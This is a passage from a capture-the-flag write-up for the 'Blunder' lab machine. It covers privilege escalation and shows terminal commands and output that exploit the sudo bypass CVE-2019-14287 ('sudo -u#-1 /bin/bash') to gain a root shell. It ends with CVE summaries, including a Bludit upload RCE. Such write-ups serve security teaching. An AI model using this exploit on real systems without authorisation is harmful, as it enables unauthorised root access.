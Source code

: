 ## Privilege escalation
The first things we must try when escalating privileges are:
```bash
hugo@blunder:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
As we can see, `hugo` is allowed to run `/bin/bash` as any user different than `root`, without password:
```bash
hugo@blunder:~$ sudo -u shaun /bin/bash
shaun@blunder:/home/hugo$
```
We can change users, but these users are useless for privesc. Instead, we can look up vulnerabilities for the sudo version:
```bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
We discovered the [CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287), which states that replacing `root` by `#-1` will bypass the `!root` filter:
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo# hostname -I
10.10.10.191 dead:beef::250:56ff:feb9:f4cb
```
We obtained a `root shell` on blunder.htb.


## CVE
### [CVE-2019-16113](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113)
Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname. 
### [CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command. 
